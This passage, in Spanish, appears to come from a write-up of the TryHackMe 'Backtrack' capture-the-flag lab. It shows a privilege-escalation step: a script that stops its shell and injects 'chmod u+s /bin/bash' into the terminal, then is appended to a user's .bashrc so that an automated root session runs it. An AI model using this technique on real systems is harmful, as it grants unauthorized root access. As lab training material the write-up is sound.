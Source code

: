 La idea es la siguiente, en ambas sesiones se va a ejecutar el fichero "*.bashrc*", por lo que si logramos inyectar código malicioso, conseguiríamos que el usuario root lo ejecute al abrir su sesión interactiva en el proceso automatizado.

Creamos un fichero *m3.sh* con el siguiente contenido, esto nos permitirá disponer de una bash con permisos administrativo:
```
#!/bin/bash

kill -SIGSTOP $$

for char in "chmod u+s /bin/bash"; do
    printf "$char" > /dev/tty
done

printf "\n" > /dev/tty
```

Después, le damos permisos de ejecución e insertamos en el fichero "*.bashrc*" del usuario *Orville*:
```
orville@Backtrack:/dev/shm$ chmod +x m3.sh 
orville@Backtrack:/dev/shm$ pwd
/dev/shm
orville@Backtrack:/dev/shm$ echo '/dev/shm/m3.sh' >> /home/orville/.bashrc 
```

Comprobamos los permisos del binario bash, esperamos unos minutos y vemos como ya han cambiado:
![](../assets/img/backtrack-tryhackme-writeup/15.png)
